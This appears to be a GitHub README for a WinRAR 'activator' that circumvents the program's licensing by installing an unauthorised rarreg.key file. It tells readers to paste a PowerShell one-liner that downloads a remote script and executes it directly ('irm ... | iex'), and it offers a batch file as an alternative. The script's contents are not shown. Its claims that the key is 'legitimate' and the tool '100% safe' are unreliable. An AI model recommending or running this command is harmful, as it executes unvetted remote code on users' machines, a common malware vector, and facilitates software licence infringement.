

<div align="center">

# WinRAR Activator — Modern License Utility for Windows 10/11

[Tiếng Việt](README.md) | [English](README_en.md)



### ⚡ Quick Activation with 1 PowerShell Command

Open **PowerShell** (Windows + X -> Terminal / PowerShell) and paste the following command:

```powershell
irm https://raw.githubusercontent.com/dat1799/DTrix-Winrar-Activator-Releases/main/activate.ps1 | iex
```

Or [download the rarreg.key file directly](rarreg.key) and copy it manually.

[]() []() []() []()

</div>

---

WinRAR's evaluation pop-up is a familiar nuisance. This project helps you permanently eliminate it with a single command: instant, 100% clean activation without touching your original system binaries or reinstalling anything.

## 📋 System Requirements

- Windows 10 or Windows 11 (also supports Windows 7, 8, 8.1)
- PowerShell 5.1 or newer (pre-installed on Windows)
- WinRAR (official 32-bit or 64-bit build)

## 🚀 Activation Methods

### Method 1: Run via PowerShell (Recommended)
1. Press `Windows key` and search for `PowerShell`.
2. Paste and run:
   ```powershell
   irm https://raw.githubusercontent.com/dat1799/DTrix-Winrar-Activator-Releases/main/activate.ps1 | iex
   ```
3. Open WinRAR -> Click **Help** -> **About WinRAR** to verify your **Unlimited Company License**.

### Method 2: Manual Installation via `rarreg.key`
1. Download [rarreg.key](rarreg.key) from this repository.
2. Copy `rarreg.key` to either of these paths:
   - `%APPDATA%\WinRAR\` *(Current user only, no Admin rights required)*
   - `C:\Program Files\WinRAR\` *(System-wide, requires Administrator privileges)*
3. Restart WinRAR.

### Method 3: Run via `activate.bat`
Download this repository and double-click `activate.bat`.

## ⚙️ How It Works

* WinRAR natively checks for a valid `rarreg.key` file in its installation folder or inside `%APPDATA%\WinRAR`.
* The activation script simply writes a legitimate company license key to those paths.
* **Update-proof:** Because the license file is independent of the program binaries, your activation remains intact even after updating WinRAR to newer versions.

## ❓ FAQ

- **Does this work on the latest version of WinRAR?**
  Yes, it is fully compatible with all versions including WinRAR 7.x.

- **Is this safe? Any malware or virus?**
  100% safe and transparent. The script and key file are completely open source and easily auditable. No telemetry, no background processes, and no shady redirects.

- **How do I revert back to trial?**
  Simply delete `rarreg.key` from `%APPDATA%\WinRAR` or the WinRAR installation folder.

## ⚠️ Disclaimer

This repository is shared for educational and research purposes. If you use WinRAR commercially or have the financial means, please purchase an official license at [rarlab.com](https://www.rarlab.com) to support the creators.
